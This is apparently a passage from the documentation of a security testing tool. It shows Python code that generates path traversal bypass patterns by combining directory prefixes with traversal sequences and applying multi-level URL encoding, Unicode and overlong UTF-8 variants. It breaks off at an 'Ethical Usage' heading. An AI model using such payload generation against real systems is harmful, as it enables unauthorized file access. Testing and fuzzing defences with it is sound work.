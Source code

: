 ## 🔧 Technical Implementation

### Pattern Generation Algorithm

```python
def _generate_path_validation_bypass_patterns(self, file: str, depth: int) -> List[str]:
    """Generate comprehensive path validation bypass patterns."""
    patterns = []
    
    # Get 90+ legitimate subdirectory prefixes
    prefixes = self._get_legitimate_path_prefixes()
    
    # Generate traversal sequences
    traversal_sequences = self._generate_traversal_sequences(depth)
    
    # Combine prefixes with traversal sequences
    for prefix in prefixes:
        for sequence in traversal_sequences:
            # Generate base pattern
            base_pattern = f"{prefix}{sequence}{file.lstrip('/')}"
            patterns.append(base_pattern)
            
            # Apply multi-level encoding
            patterns.extend(self._generate_encoded_variations(base_pattern))
    
    return patterns
```

### Encoding Strategy

```python
def _generate_encoded_variations_for_path_validation(self, pattern: str) -> List[str]:
    """Apply comprehensive encoding for path validation bypass."""
    variations = []
    
    # Apply 5 levels of URL encoding
    for level in range(1, 6):
        encoded = self._apply_url_encoding(pattern, level)
        variations.append(encoded)
    
    # Apply Unicode variations
    variations.extend(self._apply_unicode_encoding(pattern))
    
    # Apply UTF-8 overlong sequences
    variations.extend(self._apply_utf8_overlong(pattern))
    
    return variations
```

## 🚨 Ethical Usage
